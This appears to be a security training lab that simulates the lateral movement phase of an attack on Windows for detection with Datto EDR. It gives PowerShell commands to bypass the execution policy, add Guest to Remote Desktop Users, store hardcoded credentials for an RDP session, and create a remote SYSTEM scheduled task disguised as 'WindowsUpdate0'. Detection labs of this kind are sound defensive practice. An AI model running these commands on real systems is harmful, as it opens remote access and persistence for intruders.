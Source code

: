 ```yaml
---
Title: ATT&CK - Lateral Movement Phase
Description: Simulate lateral movement techniques used by attackers within a network
Author: Chris Gerritz, Datto
Created: 04/17/2025
Achievements:
Duration: 15
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
External:
- attack.mitre.org
- allitshop.infocyte.com
---
```


## Description

The purpose of this lab is to simulate lateral movement techniques used by attackers to pivot between systems within a network. You will use PowerShell commands to simulate the creation of RDP connections and remote scheduled tasks on a target system. This lab emphasizes understanding how attackers move laterally and how these activities can be monitored or mitigated.

---

## Objectives
1. Understand the Lateral Movement phase of an attack.
2. Demonstrate techniques to establish remote connections and execute tasks on remote systems.
3. Evaluate the outputs and implications of lateral movement activities.

---

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows                     |
| **Applications** | PowerShell                  |
| **Needed Files** | None                        |

---

## Preparation Instructions

1. Open **PowerShell** as an administrator:
   - Right-click PowerShell.
   - Select "Run as Administrator."
2. Prepare the environment by running the following:
   ```PowerShell
   # Define a random delay number (used to randomize operations)
   $n = 1000 + $(Get-Random -Max 999)
   # Bypass signed script controls
   Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
   ```

---

## Instructions

### 1. Add Guest to Remote Desktop Users Group
> *This step simulates an attacker adding a Guest user to the Remote Desktop Users group to enable remote access.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host -ForegroundColor Cyan "Initiating Lateral Movement - Adding Guest to Remote Desktop Users Group"
   net localgroup "Remote Desktop Users" Guest /add
   Write-Host -ForegroundColor Green "Guest successfully added to Remote Desktop Users group."
   ```

---

### 2. Establish Remote RDP Connection
> *This step simulates an attacker using stolen credentials to establish an RDP session with a target machine.*

- MITRE ATT&CK Technique: [T1021.001 - Remote Services: Remote Desktop Protocol (RDP)](https://attack.mitre.org/techniques/T1021/001)
- Copy and paste the following PowerShell commands into the terminal:

   ```PowerShell
   $cmd = @'
   cmdkey /generic:TERMSRV/CORP-DC01 /user:corp.local\adminuser /pass:P@ssw0rd123
   mstsc /v:CORP-DC01
   echo "RDP connection initiating......"
   '@
   
   $cmd += "`nStart-Sleep -Milliseconds $n"
   powershell.exe -NoProfile $cmd

   ```

---

### 3. Create a Remote Scheduled Task
> *Simulates an attacker creating a scheduled task on a remote machine to execute malicious code.*

- MITRE ATT&CK Technique: [T1053.005 - Scheduled Task: Scheduled Task/Job](https://attack.mitre.org/techniques/T1053/005)
- Copy and paste the following PowerShell commands into the terminal:
   ```PowerShell
   Write-Host "Simulating Scheduled Task Creation on remote machine CORP-DC01..."

   & Powershell -NoProfile -NoLogo -ExecutionPolicy Bypass -command {
       cmd.exe  /c SCHTASKS  /s CORP-DC01 /RU "SYSTEM" /create /tn "WindowsUpdate0" /tr "rundll32 C:\ProgramData\good.dll,good" /sc ONCE /sd 01/01/1910 /st 00:00
   }
   ```



---
